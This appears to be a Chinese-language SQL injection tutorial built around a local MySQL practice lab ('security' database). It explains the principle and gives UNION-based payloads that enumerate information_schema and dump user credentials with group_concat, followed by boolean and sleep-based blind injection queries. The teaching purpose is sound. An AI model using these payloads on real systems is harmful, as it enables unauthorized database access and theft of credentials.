# 2.3.1.1 sql注入原理
 在数据交互中，前端的数据传⼊到后端处理时，由于后端没有对数据做严格的判断，导致其传⼊的"数 据"拼 接到SQL语句中后，被当作SQL语句的⼀部分执⾏。  

# **<font style="color:rgb(38, 38, 38);">2.3.1.2 </font>**sql注入基础
1. 打开mysql
    1. 启动mysql  

    2. 打开此电脑，进入`D:\phpstudy_pro\Extensions\MySQL5.7.26\bin`
    3. 输入cmd  

2. 登录mysql
    1. `mysql -u root -p`
    2. `root`  

3. mysql基础命令
    1. 查看所有数据库  
`show databases;`  

    2. 使用`security`数据库  
` use security;`  

    3. 查看当前数据库所有的表  
`show tables;`  

    4. 查询`users`所有的内容  
`select * from users;`  


# **<font style="color:rgb(38, 38, 38);">2.3.1.3 </font>**union联合注入
    5. 查询所有的内容来自`users`表，条件是id=1，联合查询`1,2,3`  
`select * from users where id = 1 union select 1,2,3;`  

    6. 当union之前的查询语句，查询结果为空，会将`1,2,3`放到第一行  
`select * from users where id = 0 union select 1,2,3;`  

    7. 使用别名进行查询  
`select u.id from users as u where id = 0  union select 1,2,3;`  
  
`users as  u`代表给`users`取一个别名叫做`u`  
`u.id`代表`u`中的`id`字段
    8. 查询条件是`id<5`的数据  
`select u.id,u.username,u.password from users as u where id < 5  union select 1,2,3;`
    9. 使用`limit 0,3`进行截取,从第0行截取，取3行  
` select u.id,u.username,u.password from users as u where id < 5  union select 1,2,3 limit 0,3;`
    10. 将多行数据整合为一行输出  
`select group_concat(u.id,'~',u.username,'~',u.password) from users as u where id < 5  union select 1`
    11. 对mysql数据库的了解

```python
information_schema:库表列    
             schemata(schemata_name库名)
             tables(table_schema表所属的库名,table_name表名)     
             columns(table_schema该字段所属表的库名,table_name该字段所属表的名称,column_name该字段的名称) 
```

    12. 联合查询所有的库  
`select u.id,u.username,u.password from users as u where id =0  union select 1,group_concat(SCHEMA_NAME),3 from information_schema.SCHEMATA;`
    13. <font style="color:rgb(38, 38, 38);">联合查询</font>`<font style="color:rgb(38, 38, 38);">security</font>`<font style="color:rgb(38, 38, 38);">库中所有的表  
</font>`<font style="color:rgb(38, 38, 38);">select u.id,u.username,u.password from users as u where id =0  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database();</font>`
    14. <font style="color:rgb(38, 38, 38);">联合查询</font>`<font style="color:rgb(38, 38, 38);">security.users</font>`<font style="color:rgb(38, 38, 38);">表中所有的字段名  
</font>`<font style="color:rgb(38, 38, 38);">select u.id,u.username,u.password from users as u where id =0  union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' and table_schema=database();</font>`
    15. <font style="color:rgb(38, 38, 38);">联合查询</font>`<font style="color:rgb(38, 38, 38);">security.users</font>`<font style="color:rgb(38, 38, 38);">表中所有的内容  
</font>`<font style="color:rgb(38, 38, 38);">select u.id,u.username,u.password from users as u where id =0  union select 1,group_concat(id,"~",username,"~",password),3 from users ;</font>`<font style="color:rgb(38, 38, 38);">  
</font>

# **<font style="color:rgb(38, 38, 38);">2.3.1.4 </font>**布尔注入和睡眠注入
    1. 查询security.users中条件id=1的数据  
`select * from security.users where id =1;`  

    2. 添加`and`进行判断  
`select * from security.users where id =1 and 1=1;`   正常查询  
`select * from security.users where id =1 and 1=2;`    异常但不是语法报错  

    3. 使用布尔进行判断  
`select * from security.users where id =1 and ascii(substr(database(),1,1))=115;`  
  
`ascii()`将字符转化为数字  
`substr(被截取的字符串,开始的位置,取一个字符)`
    4. 使用睡眠进行布尔判断  
`select * from security.users where id =1 and If(ascii(substr(database(),1,1))=115,1,sleep(5));`  
`select * from security.users where id =1 and If(ascii(substr(database(),1,1))=116,1,sleep(5));`

